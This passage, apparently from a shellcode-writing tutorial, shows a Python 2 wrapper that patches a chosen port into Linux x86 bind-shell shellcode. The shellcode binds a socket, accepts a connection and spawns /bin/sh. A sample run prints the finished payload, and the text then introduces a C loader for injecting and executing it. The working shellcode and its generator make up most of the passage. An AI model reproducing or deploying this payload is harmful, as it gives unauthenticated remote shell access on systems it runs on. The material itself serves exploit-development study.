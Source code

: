 shellcode = ("\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01"
	"\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x69"
	"\\x01\\x89\\xfb\\x31\\xc9\\x51\\x51\\x66\\x68[p2][p1]\\x66\\x6a"
	"\\x02\\x89\\xe1\\x31\\xd2\\xb2\\x10\\xcd\\x80\\x31\\xc0\\x66\\xb8"
	"\\x6b\\x01\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c"
	"\\x01\\x89\\xfb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\xcd\\x80\\x89\\xc7"
	"\\x31\\xc9\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xfe\\xc9\\xcd"
	"\\x80\\x75\\xf4\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f"
	"\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xe1\\x50\\x89\\xe2\\xb0\\x0b"
	"\\xcd\\x80"
)

if len(sys.argv) != 2:
	print 'Usage: ' + sys.argv[0] + ' <port>'
	sys.exit()

port = sys.argv[1]
print "Chosen port: %s" % port

int_port = int(port)
if int_port > 65535:
	print "Port choice is greater than max value (65535)"
	sys.exit()

htons_port_val = socket.htons(int_port)
hex_port_value = hex(htons_port_val)

cleaned_hex_port = hex_port_value.replace("0x", "")
first_port_val = "\\x" + cleaned_hex_port[:2]
second_port_val = "\\x" + cleaned_hex_port[2:]

print "1st port: %s" % first_port_val
print "2nd port: %s" % second_port_val
print ""

print "Ammending shellcode..."

shellcode = shellcode.replace("[p2]", second_port_val)
shellcode = shellcode.replace("[p1]", first_port_val)

print "Final Shellcode:"
print shellcode
```

As we can see in the above shellcode value, there are two placeholder values [p2] and [p1], these are the two hex values that are replaced with the target port, specified at runtime. Once edited, the final shellcode is output to the screen, as seen in the following usage example:

```
root@kali:~/Documents/bindshell# python wrapper.py 9003
Chosen port: 9003
1st port: \x2b
2nd port: \x23

Ammending shellcode...
Final Shellcode:
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x31\xc9\x51\x51\x66\x68\x23\x2b\x66\x6a\x02\x89\xe1\x31\xd2\xb2\x10\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc7\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80
```

Our final step is to utilise this hex output within an executable that injects the shellcode directly into the process memory and executes it, binding out shell. This can be completed in various languages, for example C# is an ideal candidate for a Windows shell. As I am working within a Unix environment I wrote my executable in C.

```